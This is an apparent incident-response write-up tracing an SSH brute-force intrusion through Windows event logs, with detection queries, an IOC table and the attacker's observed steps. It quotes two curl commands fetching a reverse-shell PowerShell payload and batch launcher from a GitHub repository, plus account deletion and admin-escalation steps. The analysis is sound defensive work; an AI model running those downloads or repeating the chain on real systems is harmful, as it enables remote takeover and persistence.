 ```
winlog.event_id : ("4624" or "4625") and winlog.logon.id: 3 or 8 and process.name: ("sshd.exe" or "ssh-keygen.exe" or "ssh.exe")
```
![[Pasted image 20250904110927.png]]
in the image we will see that there are two user name econt and fake user and both of them have large number of login failed which implies that the attacker is trying to brute force attack on ssh and also we can see that there is 4 successful login in econt which implies that the attacker gain access to econt using ssh so let look what he has done using this user name before that let list all of iocs.

| IOC        | values      |
| ---------- | ----------- |
| username   | econt       |
| Ip Address | 192.168.1.8 |
| Port       | 22(SSH)     |
now let go to discover and see what attacker did after he logon to econt using
```
winlog.event_id: 1
```
because when we login to ssh we initiate cmd or power-shell which we can see using event id 1 which is process.creation.
![[Pasted image 20250904115734.png]]
we filter out legitimate process like svchost.exe,taskhostw.exe
![[Pasted image 20250904123439.png]]
in the image we can see that the attacker entered the system using  econt username and done lateral movement like whoami , net users and hostname.
![[Pasted image 20250904123806.png]]
and proceed to delete username ayele and create it own ayele username 
![[Pasted image 20250904123941.png]]
then continue to make ayele an administrator
![[Pasted image 20250904124239.png]]
and proced to download file from github with url 
1. curl -OL https://raw.githubusercontent.com/econx1/payload/refs/heads/main/word.txt.ps1
2. curl -OL https://raw.githubusercontent.com/econx1/payload/refs/heads/main/payload.bat
let see what github find more ioc.
![[Pasted image 20250904124904.png]]
as we can see there  are many payloads in this github but let look the one that attacker downloaded word.txt.ps1 and payload.bat
![[Pasted image 20250904125046.png]]
the payload.bat is used to trigger the word.txt.ps1.
![[Pasted image 20250904125217.png]]
the word.txt.ps1 is payload that will create reverse shell on port 3000 and it also create register so it will run persistently.now we know what the payload contained let see where and what it has downloaded
![[Pasted image 20250904130414.png]]
we can see that both payload files are downloaded in C:\Users\econt\AppData\Local\Temp\ directory.
